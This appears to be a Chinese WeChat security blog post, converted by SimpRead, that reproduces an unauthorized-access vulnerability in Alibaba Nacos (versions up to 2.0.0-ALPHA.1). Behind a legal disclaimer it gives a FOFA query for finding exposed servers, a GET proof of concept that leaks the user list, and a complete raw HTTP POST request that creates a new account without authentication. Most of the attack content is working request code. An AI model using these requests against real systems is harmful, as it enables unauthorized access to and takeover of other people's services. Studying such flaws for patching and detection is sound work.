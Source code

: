 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/igIjJLwCWRNBrnDBUaiMWA)

推文开头，先学习一下中华人民共和国网络安全法，大家要做一名合法的白帽子，不要搞事情。

```
https://www.cto.ac.cn/thread-106.htm
```

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFAUdnHOIkkz7lxuSSmdDAgnrhg238LjAKFCoamn2ick3uPzTlFibTXPdQns8KNAIiakSfpc0M5hEU6GQ/640?wx_fmt=jpeg)

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFAUdnHOIkkz7lxuSSmdDAgn9KCtNqV7fpbyKk9UviaMnHV74CkEKBywWmL1WJStQpibUz9V3N5dZrhQ/640?wx_fmt=jpeg)

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/khmibjLuVibFAUdnHOIkkz7lxuSSmdDAgn4e9QAM4Zk0Mq0DJWrjibL2icf4jSkAInkzFibibC7tRNef61sJ0txibJTZQ/640?wx_fmt=jpeg)

本推文仅用于信息防御技术教学，切勿用于其他用途，有侵权或者存在危害性，请联系我进行删除。

这几天复现了几个漏洞，整理一下，公众号发一波  

Alibaba Nacos 未授权访问漏洞

目前受影响的 Alibaba Nacos 版本：

Nacos <= 2.0.0-ALPHA.1

fofa 语法
-------

```
title="nacos"
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZu3qh7SXBtibt0jR9ap7wPaNyFWySNkYg1dRZy9TibwwOq4PibAduYa9Wg/640?wx_fmt=png)

未授权信息泄露的 poc
------------

```
http://x.x.x.x/nacos/v1/auth/users?pageNo=1&pageSize=100
```

![](https://mmbiz.qpic.cn/mmbiz_png/khmibjLuVibFAiaVzxv4UjrZHQJVMhhU5nZt3ftpyf2pKyurF58L6c8OQCbQmzxibicsgFwq6U3zMZte1HX3BLftxDw/640?wx_fmt=png)

未授权创建用户
-------

发送下面的数据包，添加账号密码都是 qwe 的用户

```
POST /nacos/v1/auth/users HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Connection: close

username=qwe&password=qwe
```
